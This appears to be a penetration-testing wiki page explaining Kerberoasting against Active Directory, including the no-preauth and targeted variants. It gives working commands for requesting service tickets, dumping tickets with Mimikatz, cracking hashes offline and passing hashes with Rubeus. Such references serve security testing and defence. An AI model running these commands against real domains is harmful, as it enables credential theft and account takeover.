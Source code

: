 # Kerberoasting
MITRE ATT&CK™ Sub-technique T1558.003

![Kerberos Diagram](../../../assets/kerberoasting.jpg)

When asking the KDC (Key Distribution Center) for a Service Ticket (ST), the requesting user needs to send a valid TGT (Ticket Granting Ticket) and the service name (`sname`) of the service wanted. If the TGT is valid, and if the service exists, the KDC sends the ST to the requesting user.

Multiple formats are accepted for the `sname` field: servicePrincipalName (SPN), sAMAccountName (SAN), userPrincipalName (UPN), etc.

The ST is encrypted with the requested service account's NT hash. If an attacker has a valid TGT and knows a service (by its SAN or SPN), he can request a ST for this service and crack it offline later in an attempt to retrieve that service account's password.

In most situations, services accounts are machine accounts, which have very complex, long, and random passwords. But if a service account, with a human-defined password, has a SPN set, attackers can request a ST for this service and attempt to crack it offline. **This is Kerberoasting**.

> [!IMPORTANT]
> Unlike [ASREProasting](asreproast.md), this attack can only be carried out with a prior foothold (valid domain credentials), except in the Kerberoasting without pre-authentication scenario.

The [Impacket](https://github.com/SecureAuthCorp/impacket) script [GetUserSPNs](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) can perform all the necessary steps to request a ST for a service given its SPN (or name) and valid domain credentials.

> [!TIP]
> The Kerberoasting attack can be conducted without knowing any SPN of the target account, since a service ticket can be request for as long as the service's SAN (`sAMAccountName`) is known. ([swarm.ptsecurity.com](https://swarm.ptsecurity.com/kerberoasting-without-spns/))
> 
> Nota bene, Kerberos can deliver service tickets even if the service has no SPN at all, but then the service's SAN must end with `$`, and in this case it's hard to know for sure if the service's password is defined by a human. Kerberoast attacks usually target user accounts with at least one SPN (`servicePrincipalName`) since they probably have human-defined passwords.

```bash
# with a password
GetUserSPNs.py -outputfile kerberoastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/USER:Password'

# with an NT hash
GetUserSPNs.py -outputfile kerberoastables.txt -hashes 'LMhash:NThash' -dc-ip $KeyDistributionCenter 'DOMAIN/USER'
```

This can also be achieved with [NetExec](https://github.com/Pennyw0rth/NetExec)
```bash
netexec ldap $TARGETS -u $USER -p $PASSWORD --kerberoasting kerberoastables.txt --kdcHost $KeyDistributionCenter
```

Using [pypykatz](https://github.com/skelsec/pypykatz/wiki/Kerberos-spnroast-command) it is possible to request an RC4 encrypted ST even when AES encryption is enabled (and if RC4 is still accepted of course). The tool features an -e flag which specifies what encryption type should be requested (default to 23, i.e. RC4). Trying to crack `$krb5tgs$23` takes less time than for `krb5tgs$18`.
```bash
pypykatz kerberos spnroast -d $DOMAIN -t $TARGET_USER -e 23 'kerberos+password://DOMAIN\username:Password@IP'
```


[Rubeus](https://github.com/GhostPack/Rubeus) can be used for that purpose.
```powershell
Rubeus.exe kerberoast /outfile:kerberoastables.txt
```


[Hashcat](https://github.com/hashcat/hashcat) and [JohnTheRipper](https://github.com/magnumripper/JohnTheRipper) can then be used to try cracking the hash.
```bash
hashcat -m 13100 kerberoastables.txt $wordlist
```

```bash
john --format=krb5tgs --wordlist=$wordlist kerberoastables.txt
```

### Kerberoast w/o pre-authentication
In September 2022, [Charlie Cark](https://twitter.com/exploitph) explained how Service Tickets could be obtained through `AS-REQ` requests (which are usually used for TGT requests), instead of the usual `TGS-REQ`. He demonstrated (and [implemented](https://github.com/GhostPack/Rubeus/pull/139)) how to abuse this in a Kerberoasting scenario.

If an attacker knows of an account for which pre-authentication isn't required (i.e. an [ASREProastable](asreproast.md) account), as well as one (or multiple) service accounts to target, a Kerberoast attack can be attempted without having to control any Active Directory account (since pre-authentication won't be required).

The [Impacket](https://github.com/SecureAuthCorp/impacket) script [GetUserSPNs](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) (Python) can perform all the necessary steps to request a ST for a service given its SPN (or name) and valid domain credentials.

_At the time of writing, Sept. 28th 2022,_ [_the pull request (#1413)_](https://github.com/SecureAuthCorp/impacket/pull/1413) _adding the `-no-preauth` option for `GetUserSPNs.py` is pending._
```bash
GetUserSPNs.py -no-preauth "bobby" -usersfile "services.txt" -dc-host "DC_IP_or_HOST" "DOMAIN.LOCAL"/
```

```
srv01
cifs/srv02.domain.local
cifs/srv02
```

[Rubeus](https://github.com/GhostPack/Rubeus) can be used for that purpose.
```powershell
Rubeus.exe kerberoast /outfile:kerberoastables.txt /domain:"DOMAIN.LOCAL" /dc:"DC01.DOMAIN.LOCAL" /nopreauth:"nopreauth_user" /spn:"target_service"
```
### Targeted Kerberoasting
If an attacker controls an account with the rights to add an SPN to another ([`GenericAll`](../dacl/#genericall), [`GenericWrite`](../dacl/#genericwrite)), it can be abused to make that other account vulnerable to Kerberoast (see [exploitation](../dacl/targeted-kerberoasting.md)).

> [!TIP]
> Controlling a member of the [Account Operators](../builtins/security-groups) group, targeted Kerberoasting can be conducted for the whole domain (see [exploitation](../dacl/targeted-kerberoasting.md)).


### Tidbits
```powershell
# To see existing tickets
klist

# Remove all tickets
klist purge
```
### PowerView
Request a kerberos service ticket for specified SPN.  By default the output is in Hashcat format
```powershell
Request-SPNTicket -SPN "CIFS/target.domain.local" [-OutputFormat JTR]
```
### Manually
By doing it manually, ticket is generated, it requires to be extracted to crack the hash
```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "CIFS/target.domain.local"
```

Dump the tickets out
```text
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

Now, crack ’em
### Over-Pass the Hash
#### Rubeus
```powershell
Rubeus.exe asktgt /user:USER < /rc4:HASH | /aes128:HASH | /aes256:HASH> [/domain:DOMAIN] [/opsec] /ptt
```
#### Mimikatz
```powershell
sekurlsa::pth /user:Administrator /domain:target.domain.local < /ntlm:hash | /aes256:hash> /run:powershell.exe
```
## Resources

[https://en.hackndo.com/kerberos](https://en.hackndo.com/kerberos)

[https://adsecurity.org/?p=2011](https://adsecurity.org/?p=2011)

[https://www.semperis.com/blog/new-attack-paths-as-requested-sts/](https://www.semperis.com/blog/new-attack-paths-as-requested-sts/)

[https://swarm.ptsecurity.com/kerberoasting-without-spns/](https://swarm.ptsecurity.com/kerberoasting-without-spns/)

https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast